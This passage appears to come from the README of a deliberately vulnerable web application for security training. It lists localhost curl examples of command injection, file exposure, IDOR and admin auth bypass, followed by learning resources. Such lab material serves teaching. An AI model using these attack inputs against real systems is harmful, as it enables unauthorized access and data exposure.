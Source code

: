 ### Version 2 - Advanced Exploitation
```bash
# Command Injection
curl "http://localhost:9001/products?search=ls"

# File Exposure
curl "http://localhost:9001/secret?file=flag.txt"

# IDOR
curl "http://localhost:9001/profile?id=1"
```

### Version 3 - Maximum Exploitation
```bash
# Complete Auth Bypass
curl "http://localhost:10001/admin/insecure"

# Role Bypass
# Any logged-in user can access admin/owner functions
```

## 📚 **Educational Resources**

### 🎓 **Academic Use**
- **Cybersecurity Courses**: Perfect for hands-on labs
- **Web Security Classes**: Real-world vulnerability examples
- **Penetration Testing Training**: Practical exploitation practice
- **Security Research**: Vulnerability analysis and defense

### 📖 **Recommended Reading**
- OWASP Top 10 Web Application Security Risks
- Web Application Security Testing Guide
- Secure Coding Practices
- Penetration Testing Methodologies
- "Insecure by Default" Design Patterns

### 🔗 **Related Resources**
- [OWASP Foundation](https://owasp.org/)
- [Web Security Academy](https://portswigger.net/web-security)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Secure Coding Practices](https://owasp.org/www-project-secure-coding-practices-quick-reference-guide/)

## 🤝 **Contributing**

### 🐛 **Reporting Issues**
- Use GitHub Issues for bug reports
- Provide detailed reproduction steps
- Include expected vs actual behavior
- Specify which version you're testing
